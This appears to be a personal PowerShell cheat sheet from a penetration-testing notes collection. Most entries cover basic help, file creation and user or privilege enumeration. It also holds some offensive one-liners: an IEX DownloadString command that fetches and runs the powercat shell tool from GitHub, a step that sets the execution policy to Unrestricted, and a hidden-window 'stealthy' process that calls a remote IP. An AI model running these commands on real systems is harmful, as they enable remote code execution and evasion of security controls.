 
### Load a `ps1` module:
```
Load The Function From Downloaded .ps1 File:
	. .\powercat.ps1
OR
	Import-Module .\powercat.ps1
	
Load The Function From URL:
    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

```

### Sudo or switch user:
see [[sudo]]

### Create a file
```powershell
New-Item <filename.filetype>
echo $null >> filename.type
```

### To display a list of cmdlets contained in a specific module
```powershell
Get-Command -Module <module name>
# example for windows defender
Get-Command -Module Defender
```

### Need help about a command ?
```powershell
Get-Help <Command> –Full
```

### Need usage example ?
```powershell
Get-Help <Command> -Examples
```

### Disable execution policy
> Need admin privileges

```powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted
```

#### Execute a powershell command in a new process (stealthy : no window)
```powershell
Start-Process "powershell" -WindowStyle Hidden -ArgumentList "curl http://192.168.0.17:8000/"
```

#### Get hostname:
```powershell
hostname
```
#### List users
```powershell
net user
```
#### Get user info
```powershell
net user administrator
```
#### Get current user name
```powershell
whoami
```
#### Get user groups
```powershell
whoami /groups
```
#### Get user privileges
```powershell
whoami /priv
```
#### Get user name
```powershell
whoami
```